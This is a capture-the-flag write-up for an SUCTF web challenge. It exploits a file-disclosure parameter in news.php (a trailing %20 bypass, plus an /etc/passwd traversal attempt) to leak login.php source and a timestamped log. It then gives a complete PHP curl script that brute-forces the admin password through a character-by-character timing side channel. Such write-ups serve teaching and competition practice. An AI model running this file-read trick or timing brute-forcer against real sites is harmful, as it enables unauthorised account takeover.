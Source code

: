 # SUCTF : 400 - Birthday of website's admin

**Description:**

[This website](http://ctf.sharif.edu:16481/login.php)
is more secure than what you may think :)

Flag is SHA1(Birthday of website's admin, formatted as YYYYMMDD).

## Write-up
Investigating all parts of the site, you'll see that the root page includes two iframes. Each iframe sends a request to news.php with a parameter "title". This parameters seems interesting. Specially, when it is modified, the server rejects by sending an empty response.

Trying some known files: **index.php login.php ../index.php ../../../../../../etc/passwd**; but no success.

Maybe something, e.g. an extension, is concatenated. Unfortunately, **index.php%00** does not work, but, yes, **index.php%20** works!

Lets see the source code of **login.php** via **http://ctf.sharif.edu:14004/news.php?title=login.php%20 **:
```php
<?php
session_start();
if (isset ($_SESSION['login_status']) and $_SESSION['login_status'] === 'authenticated') { // already logged in
  session_write_close ();
  header('Location: /profile.php', true, 303);
  exit (0);
}
$anyerror = false;
if (isset($_POST['action']) && $_POST['action'] === 'login') {
  define ('SAFTY_CHECK', true);
  include 'internals/log.php';
  include 'internals/db.php';
  $useragent=md5($_SERVER['HTTP_USER_AGENT']);
  $username=$_POST['username'];
  $password=$_POST['password'];
  $expected_password = db_retreive_password ($username);
  $anyerror = is_null ($expected_password) || $anyerror;
  $anyerror = strlen ($username) < 3 || $anyerror;
  $anyerror = strlen ($username) > 20 || $anyerror;
  $anyerror = strlen ($password) < 3 || $anyerror;
  $anyerror = strlen ($password) > 50 || $anyerror;
  if ($anyerror === false) {
    check_for_log_rotation ('9cccf42e43cd2eb379259dba5077b1a7.log');
    mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'checking password');
    for ($i = 0; $i < strlen ($expected_password) and $i < strlen ($password); $i = $i + 1) {
      if (substr ($password, $i, 1) != substr ($expected_password, $i, 1)) { // mismatch
        $anyerror = true;
        break;
      }
    }
    if (strlen ($expected_password) != strlen ($password)) {
      $anyerror = true;
    }
    if ($anyerror) {
      mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'wrong password');
    } else {
      mylog ('9cccf42e43cd2eb379259dba5077b1a7.log', $useragent, 'correct password');
      $_SESSION['login_status'] = 'authenticated';
      $_SESSION['username'] = $username;
      session_write_close ();
      header('Location: /profile.php', true, 303); // <http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html#sec10.3.4>;
      exit (0);
    }
  }
}
session_write_close ();
?>
```

There is a log file named **9cccf42e43cd2eb379259dba5077b1a7.log** which seems interesting.

Fetching **http://ctf.sharif.edu:14004/news.php?title=9cccf42e43cd2eb379259dba5077b1a7.log%20**, you will see the log file.

```
The log file is rotated. previous logs are moved to 9cccf42e43cd2eb379259dba5077b1a7.log.backup-1411770914 file.
1411770914.5129 | d41d8cd98f00b204e9800998ecf8427e | checking password
1411770914.513 | d41d8cd98f00b204e9800998ecf8427e | wrong password
1411770914.5334 | fa06a7c9d42ae5b386feae5b01f48a3f | checking password
1411770914.5335 | fa06a7c9d42ae5b386feae5b01f48a3f | wrong password
1411770915.7109 | d41d8cd98f00b204e9800998ecf8427e | checking password
1411770915.711 | d41d8cd98f00b204e9800998ecf8427e | wrong password
1411770915.7178 | 8efa52fbb9c4c46940e54b0dae76d8ba | checking password
1411770915.7179 | 8efa52fbb9c4c46940e54b0dae76d8ba | wrong password
1411770916.1378 | fa06a7c9d42ae5b386feae5b01f48a3f | checking password
1411770916.1379 | fa06a7c9d42ae5b386feae5b01f48a3f | wrong password
1411770917.1523 | 8efa52fbb9c4c46940e54b0dae76d8ba | checking password
...
```
It contains log time, the md5 of user-agent, and the log string. So what? After some investigation, you will notice that the password checking code is interesting:
```php
    for ($i = 0; $i < strlen ($expected_password) and $i < strlen ($password); $i = $i + 1) {
      if (substr ($password, $i, 1) != substr ($expected_password, $i, 1)) { // mismatch
        $anyerror = true;
        break;
      }
    }
    if (strlen ($expected_password) != strlen ($password)) {
      $anyerror = true;
    }
```

It has a time-leackage vulnerability but needs a highly-accurate time sampling. The logs' timestamps help now.

The strategy is as follows:
* Bruteforce the password by a script.
* To guess position 1, try all alphanumeric characters (first guess) and monitor the checking time by fetching the log and extracting your latest logs.
* The md5 of user agent now determines your own logs between the others.
* Each letter which consumes more processing time is the right one.
* Then, proceed to the second letter and so on.
* Be careful that passwords shorter than 3 characters are not processed at all, and it flats the processing time. Choose a dummy three-letter password (for example, " ") and guess the first position.
* Also be aware that a non-existing username also breaks this process. So, enter "admin" as the username from the beginning.

The following script will do this.
```php
<?php
	define('REPEAT_NUM', 3);

	// create curl resource 
	$ch = curl_init(); 

	$useragent = 'mymymyuseragent';

	//return the transfer as a string 
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 

	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, TRUE);
	curl_setopt($ch,CURLOPT_ENCODING , 'gzip');

	curl_setopt($ch, CURLOPT_COOKIESESSION, true);
	curl_setopt($ch, CURLOPT_COOKIEJAR, 'cookie.jar');
	curl_setopt($ch, CURLOPT_COOKIEFILE, 'cookie.data');

	curl_setopt($ch, CURLOPT_HTTPHEADER, array(
		'User-Agent: $useragent'
	));

	$charset = array('0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f',/*
		'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
		'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S',
		'T', 'U', 'V', 'W', 'X', 'Y', 'Z'*/);

	$pass = '   ';

	for ($ind = 0; $ind < 50; $ind++)
	{
		echo 'PASS (so far): $pass\n';

		$choices_table = array();
		$choices_sum  = 0;

		foreach ($charset as $val)
		{
			$repeats_sum = 0;
			for ($repeat = 0; $repeat < REPEAT_NUM; $repeat++)
			{
				// try login
				$pass[$ind] = $val;

				curl_setopt($ch, CURLOPT_POST, 1);
				curl_setopt($ch, CURLOPT_POSTFIELDS, 'action=login&username=admin&password=$pass');

				curl_setopt($ch, CURLOPT_URL, 'http://.../login.php');
				$output = curl_exec($ch); 
				if ($output === false)
					die('CURL ERROR: ' . curl_error($ch) . '\n\n');

				// check time in logs
				curl_setopt($ch, CURLOPT_POST, 0);

				curl_setopt($ch, CURLOPT_URL, 'http://.../news.php?title=9cccf42e43cd2eb379259dba5077b1a7.log%20');
				$output = curl_exec($ch); 
				if ($output === false)
					die('CURL ERROR: ' . curl_error($ch) . '\n\n');

				$logs = explode('\n', $output);
				$mylogs = array_values(preg_grep('/' . md5($useragent) . '/', $logs));

				if (sizeof($mylogs) == 0)
					die('LOG OUTPUT: $output\n\n');
				
				sscanf($mylogs[sizeof($mylogs)-2], '%f', $start);
				sscanf($mylogs[sizeof($mylogs)-1], '%f', $end);
				$time = round($end * 10000 - $start * 10000);

				$repeats_sum += $time;
			}

			$avgtime = (float)$repeats_sum / REPEAT_NUM;
			$choices_table[$val] = $avgtime;
			echo 'choices_table[$val] = $avgtime\n';
			$choices_sum += $avgtime;
		}

		$avgtime = (float)$choices_sum / sizeof($charset);
		echo '\navgtime=$avgtime\n\n';

		arsort($choices_table);
		
		foreach($choices_table as $letter => $value)
			break;

		if ($value - $avgtime < 0.5)
			die('no noticeable difference\n\n');

		$pass[$ind] = $letter;
	}

	curl_close($ch);
?>
```
Once the password is revealed, login and obtain the birthday of admin.

